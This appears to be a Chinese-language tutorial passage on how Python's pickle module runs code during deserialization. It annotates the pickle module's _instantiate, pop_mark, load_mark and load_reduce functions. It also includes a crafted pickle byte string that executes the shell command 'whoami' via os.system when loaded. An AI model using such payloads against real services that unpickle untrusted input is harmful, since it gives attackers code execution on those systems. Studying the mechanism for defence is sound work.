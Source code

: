\_instantiate函数 调用函数

```python
    def _instantiate(self, klass, args):
        if (args or not isinstance(klass, type) or
            hasattr(klass, "__getinitargs__")):
            try:
                value = klass(*args) #执行
            except TypeError as err:
                raise TypeError("in constructor for %s: %s" %
                                (klass.__name__, str(err)), sys.exc_info()[2])
        else:
            value = klass.__new__(klass)
        self.append(value)
```

`load_inst`中的`self.pop_mark()`作为参数

```python
    def pop_mark(self):
        items = self.stack #返回当前栈中的参数
        self.stack = self.metastack.pop()
        self.append = self.stack.append
        return items #返回当前栈中的参数
```

所以命令执行的payload

```python
import pickle
import sys
a=b'\x80\x03(X\x06\x00\x00\x00whoamiios\nsystem\n.'
b=pickle.loads(a)
```

`(`操作码 向`metastack`中添加`self.stack`不然后面命令执行时`self.metastack.pop()`会报错

```python
    def load_mark(self):
        self.metastack.append(self.stack)
        self.stack = []
        self.append = self.stack.append
    dispatch[MARK[0]] = load_mark
```

**`R`操作码**

对应的函数

```python
    def load_reduce(self):
        stack = self.stack
        args = stack.pop() #弹栈作为一个参数，参数必须是元组
        func = stack[-1]# 栈中的最后一个数据作为函数，
        stack[-1] = func(*args)#并用执行结果覆盖函数
    dispatch[REDUCE[0]] = load_reduce
```
